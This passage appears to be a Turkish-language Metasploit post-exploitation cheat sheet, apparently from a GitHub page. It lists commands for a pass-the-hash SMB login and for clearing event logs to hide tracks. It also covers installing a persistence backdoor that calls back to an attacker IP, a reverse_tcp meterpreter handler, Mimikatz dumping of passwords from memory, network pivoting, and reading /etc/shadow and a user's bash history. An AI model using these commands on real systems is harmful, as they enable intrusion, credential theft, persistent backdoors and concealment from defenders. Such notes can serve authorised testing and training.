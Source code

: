    ~~> set rhost 192.168.20.10
    
    ~~> set SMBUSER test
    
    ~~> set SMBpass "hashdump ile elde ettiğimiz hash"
    
    ~~> exploit    
    
## Advanced Komutlar

    M> clearev (arkamızda bıraktığımız log'ları temizler)
    
    M> ps aux (sistemdeki process'leri listeler)
    
    M> migrate PID (PID: Process ID)
    
    M> run persistence -A -i 10 -p 6767 -r 192.168.0.24 (Sistem bize belli süre aralıklarında bağlantı isteği gönderir, bu sayede sızdığımız sistemde bir backdoor(arka kapı) bırakmış oluruz ve bu isteklerden birini yakalayarak tekrar sisteme sızabiliriz)
 
 **- Mimikatz Kullanımı:**
 
    ~> use exploit/multi/handler
    
    ~~> set payload windows/meterpreter/reverse_tcp
    
    ~~> set lhost 192.168.0.24
    
    ~~> exploit
    
    M> load mimikatz (mimikatz: RAM'de kayıtlı şifreleri gösterir)
   
    M> help mimikatz
    
    M> mimikatz_command -f sekurlsa::searchPasswords

## Pivoting

- Sızdığımız makinenin bağlı olduğu ağa bağlı olan diğer makinelere, sızdığımız makineyi router olarak kullanıp atlama işlemine Pivoting denir. (Sızdığımız makinede ipconfig komutunu çalıştırırsak başka ağlara bağlı olup olmadığını görebiliriz.)

  **- Uygulama:**  
    
    M> run autoroute -s 172.16.0.0/16 (172.16.0.0/16 ip'ye sahip bir interface, sızdığımız makineyle bağlantılı olsaydı pivoting işlemi yapabilmemiz için sızdığımız makineyi router olarak conf. etmemizi sağlayan komut)

## Post-Exploitation(Linux)

    => cat /etc/issue (işletim sistemini öğrenir)
    
    => cat /etc/passwd (içeride tanımlı olan kullanıcıları ve bu kullanıcıların yetkilerini listeler, kullanıcı isimlerini tespit ederek brute force yapabiliriz)
    
    => cat /etc/shadow (sistemdeki kullanıcı şifrelerinin hash'lenmiş halinin bulunduğu dosya)
    
    => /home/osman/.bash_history (Osman'ın çalıştırdığı bütün komutlar burada kayıt edilir)
    